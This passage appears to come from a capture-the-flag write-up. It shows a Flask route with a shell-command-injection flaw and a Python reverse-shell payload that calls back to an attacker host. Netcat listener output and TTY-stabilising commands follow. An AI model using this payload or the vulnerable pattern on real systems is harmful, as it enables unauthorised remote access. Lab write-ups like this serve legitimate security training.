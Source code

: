 Once unzipped the backups contains the source code and a password for a SQL database. Also in the source code a flaw can be spotted

```python
# Export local
@app.route('/export_note_local/<string:id>', methods=['GET'])
@is_logged_in
def export_note_local(id):
    if check_VIP(session['username']):

        cur = mysql.connection.cursor()

        result = cur.execute("SELECT * FROM notes WHERE id = %s and author = %s", (id,session['username']))

        if result > 0:
            note = cur.fetchone()

            rand_int = random.randint(1,10000)
            command = f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"
            subprocess.run(command, shell=True, executable="/bin/bash")

            return send_file(attachment_dir + str(rand_int) +'.pdf', as_attachment=True)

        else:
            return render_template('dashboard.html')
    else:
        abort(403)

```

The line that starts with subprocess.run makes a RCE possible so if we create a payload.md and export it form our pc a reverse shell can be obtained

```python
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.60",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' #
```

Then let's fix the tty with

```shell
[dasor@archlinux ~]$ nc -lvp 7777
Connection from 10.10.11.160:42716
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-5.0$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo; fg
[1]  + continued  nc -lvp 7777

bash-5.0$ stty rows 30 columns 132
bash-5.0$
```
